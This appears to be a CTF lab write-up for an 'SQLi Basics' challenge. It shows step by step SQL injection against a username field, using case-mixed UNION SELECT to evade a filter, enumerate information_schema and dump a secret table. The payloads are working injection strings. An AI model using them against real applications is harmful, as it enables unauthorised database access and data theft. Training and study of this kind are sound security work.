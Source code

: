 ```yaml
---
date: 2025-02-05
categories: [CTF, IML]
title: "IML - SQLi Basics - Demonstrate your skills"
tags: ['rce', 'sql', 'sqli']

description: "SQLi Basics - Demonstrate you - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQLi Basics - Demonstrate your skills

- username = vulnerable parameter

![image1](../resources/8688020e25a14c42a19c8930ea91d51a.png)

- Cannot use union select because of filters (need to use filter evasion)


![image2](../resources/e82a946f4e574b8bb3453563a3725dd7.png)

- Not breaking with ' or "

- Try using 'or 1=1 -- -


![image3](../resources/869510fc01e94129ab9e28345d7203d4.png)

That worked

- I tried putting too MANY union select statements in, to start with, but the website doesn't break.
(As we found out with trying the ' and ")

- But we know that the search field only displays ONE column output.
So the correct SQLi statement is using:

```bash
'unioN SelecT 1 -- -

```

![image4](../resources/00a91d979e544379b9047796e77ee75b.png)

- Now just replace the **1** with values ie.

```bash
'unioN SelecT database() -- -

```

![image5](../resources/1a7ef064182441c089716f08b1d252a1.png)

```bash
'unioN SelecT version() -- -

```

![image6](../resources/be7a80ac98bd40c384e9c91aaf6d290f.png)

```bash
'unioN SelecT group_concat(table_name) from information_schema.tables where table_schema="user_db" -- -

```

![image7](../resources/41d9fa780c4a48e488086829b2f3a39e.png)

```bash
'unioN SelecT group_concat(column_name) from information_schema.columns where table_name="secret_table" -- -

```

![image8](../resources/18e3539342ad4375a1b85f0da831ba21.png)

```bash
'unioN SelecT group_concat(name,0x2b,value) from secret_table -- -

```
**0x2b is a delimiter(+)**


![image9](../resources/14b91aa84bb64b70ac202606038c4c36.png)